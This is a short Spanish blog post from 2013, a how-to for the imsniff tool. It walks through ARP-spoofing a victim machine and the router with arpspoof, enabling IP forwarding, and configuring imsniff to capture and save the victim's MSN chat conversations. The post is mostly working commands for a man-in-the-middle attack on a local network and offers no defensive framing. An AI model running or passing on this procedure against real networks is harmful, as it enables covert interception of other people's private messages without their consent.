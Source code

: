 ```yaml
---
layout: post
title: "imsniff"
date: 2013-12-15 18:37
comments: true
categories: 
---
```

Capturar paquetes relacionados con el protocolo MSN . Su uso pasa por el envenenamiento arp, situando nuestra máquina entre la victima y el router lanzando en varias terminales y sin cerrarlas:

>~# arpspoof -i eth0 -t 192.168.1.15 192.168.1.1

>~# arpspoof -i eth0 -t 192.168.1.1 192.168.1.15

Activar forwarding para que los paquetes vayan a su verdadero dueño:

>~# echo 1 > /proc/sys/net/ipv4/ip_forward

Crear una carpeta donde guardar los datos:

>~$ mkdir snifadas

Modificar el archivo de configuración a partir de la  propia documentación ::

>~# cp /usr/share/doc/imsniff/examples/imsniff.conf.sample /etc/imsniff.conf

>~# nano /etc/imsniff.conf

daemonize = 0

promisc = 0

verbose = 2

chatdir = /home/USER/snifadas/chats

debugdir = /home/USER/snifadas/debug

interface eth0

Los directorios "chats" y "debug" los crea la misma aplicación.

Lanzar el sniffer de conversaciones msn:

>~# imsniff

